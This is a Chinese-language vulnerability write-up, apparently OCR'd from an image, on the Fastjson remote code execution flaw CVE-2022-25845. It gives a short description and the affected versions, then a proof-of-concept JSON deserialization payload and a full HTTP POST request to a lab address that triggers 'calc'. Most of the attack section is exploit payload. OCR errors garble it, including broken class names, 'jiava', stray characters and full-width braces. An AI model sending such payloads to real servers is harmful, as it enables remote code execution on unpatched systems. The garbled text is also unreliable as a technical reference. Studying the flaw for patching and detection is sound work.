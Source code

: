 ## Fastjson代码执行漏洞(CVE-2022-25845)

### 0x00 漏洞信息

Fastjson是阿里巴巴的开源JSON解析库，可以解析JSON格式的字符串，支持将Java Bean序列化为JSON字符串，也可以从JSON字符串反序列化到Java Bean。Fastjson接口简单易用，已经被广泛使用在缓存序列化、协议交互、Web输出、Android客户端等多种应用场景。

在默认配置下，当应用或系统用Fastjson对由用户可控的JSON字符串进行解析时，将可能导致远程代码执行的危害。攻击者利用该漏洞可实现在目标机器上的远程代码执行。

**漏洞等级** 严重



### 0x01 影响范围

**Fastjson ≤ 1.2.80**



### 0x02 poc

```
{
  "@type": "java.lang. Exception",
  "@type": "com.github.isafeblue.fastjson. SimpleException",
  "domain": "calc"
}
```



数据包

```
POST /addComment HTTP/1.1
Host: 10.211.55.7:8099
Accept:" /*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=O.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Length: 40
Content-Type: application/json; charset=utf-8
Cookie: LOGIN_LANG=cn
Origin: http://10.211.55.7:8099
Referer: http:.//10.211.55.7:8099/
User-Agent: Mozilla/5.0 (Macintosh; Intell Mac OS ×10.15; rv:102.0)Gecko/20100101Firefox/102.0
x-Requested-With: XMLHttpRequest

｛
    "@type" : "jiava.lang.Exception",
    "@type": "com.github.isafeblue.fastjson.SimpleException",
    "domain": "calc"
｝
```



参考链接：
